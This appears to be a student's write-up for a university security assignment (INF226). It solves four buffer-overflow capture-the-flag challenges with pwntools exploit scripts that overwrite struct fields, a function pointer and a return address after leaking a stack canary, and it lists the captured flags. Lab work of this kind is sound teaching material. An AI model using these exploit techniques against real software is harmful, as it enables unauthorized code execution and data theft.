 # INF226_Assignment_1

## Secrets
1. {inf226_2024_m4yb3_y0u_1ik3_t34_b3tt3r}
2. {inf226_2024_13t5_f14ming0!}
3. {inf226_2024_1nd14n4_j0n35_w0uld_b3_pr0ud}
4. {inf226_2024_n0_gu35t_5h0ld_kn0w}

## Exercise 1
### Vulnerability overview

The vulnerability of the code in exercise 1 lies in the fact that the variable `locals.buffer` is 16 char/bytes long, but the `fgets()` function on line 15 reads up to 1024 chars/bytes and assigns it to buffer. The vulnerability lies in the discrepancy between how much information the `locals.buffer` can hold and how much information the fgets() func can assign to it. Beacuse the `locals.buffer` is the first property of a struct, the next property, `locals.secret` is very vulnerable. Convenientally this variable also is responsible for some important logic restricting the user from reaching the flag.

### How to exploit

The idea is to owerwrite the `locals.buffer` and assign another value to the `locals.secret` variable. We should assign the value hexadecimal value, 'c0ffee' to the variable in order to access the part of the program that exploits the flag. I know that the properties of a struct is located after one another in memory. To exploit this program i simply fill the `locals.buffer` variable with junk data ('A' * 16) when asked for input, and additionally i overfow the buffer with 0xc0ffee which gets assigned to `locals.secret`. This grants me access to the flag!

### Code
```py
import pwn
import time

target = 'oblig1.bufferoverflow.no'
port = 7001

payload = b"A" * 16 + pwn.p64(0xc0ffee)

p = pwn.remote(target, port)

p.sendline(payload)

print(p.recvline())
print(p.recvline())

p.interactive()
p.close()
```

### Secret

{inf226_2024_m4yb3_y0u_1ik3_t34_b3tt3r}

## Exercise 2
### Vulnerability overview

Again the vulnerability lies in the possibility for a buffer overflow. The struct `locals` has two properties. After `locals.buffer` comes the variable `locals.func_pt`. Later in the program the function `pick_animal()` is assigned to `locals.func_pt`, and at last the function at `locals.func_pt` is called. But the possibility to overflow `locals.buffer`, and overwrite `locals.func_pt` represents a serious vulnerability. Part of the vulnerability also lies in the fact that there exists an unused function, `expose_flag()` which is never called. This function also happens to expose some information which should be kept secret...

### How to exploit

Here the idea is to get the `expose_flag()` function to be called, even though it is never really called by just running `main()`. This is done by filling the `locals.buffer` variable and writing the memory address of `expose_flag()` into `locals.func_pt`. When `locals.func_pt` is called on line 42, the flag will be revealed!

### Code
```py
import pwn

target = 'oblig1.bufferoverflow.no'
port = 7002

payload = b'A' * 32 + pwn.p64(0x4011a6)

p = pwn.remote(target, port)

print(p.recvline())

p.sendline(payload)

print(p.recvline())

p.interactive()
p.close()
```
### Secret
{inf226_2024_13t5_f14ming0!}

## Exercise 3
### Vulnerability overview

### How to exploit

### Code
```py
import pwn

target = 'oblig1.bufferoverflow.no'
port = '7003'

buffer_to_canary_dst = b'24'
bufferfill = b'A' * int(buffer_to_canary_dst)
return_p_offset = b'B' * 8 * 1
expose_flag_adr = pwn.p64(0x4011a7)

p = pwn.remote(target, port)

print(p.recvline())
p.sendline(buffer_to_canary_dst)

print(p.recvline())
read_canary = p.recvline()
print(b'Canary: ' + read_canary)

canary_val = pwn.p64(int(read_canary, 16))

payload = bufferfill + canary_val + return_p_offset + expose_flag_adr

p.sendline(payload)

p.interactive()
p.close()
```
### Secret
{inf226_2024_1nd14n4_j0n35_w0uld_b3_pr0ud}

## Exercise 4
### Vulnerability overview

### How to exploit

### Code
```py
import pwn

target = 'oblig1.bufferoverflow.no'
port = '7004'

bufferfill = b'A' * 16
buffer_to_secret_dst = b'-48'

p = pwn.remote(target, port)

print(p.recvline())
print(p.recvline())

p.sendline(buffer_to_secret_dst)

print(p.recvline())

read_secret = p.recvline()
print(b'Secret: ' + read_secret)

secret_val = pwn.p64(int(read_secret, 16))

print(p.recvline())

p.sendline(bufferfill + secret_val)

print(p.recvline())

p.interactive()
p.close()
```
### Secret
{inf226_2024_n0_gu35t_5h0ld_kn0w}
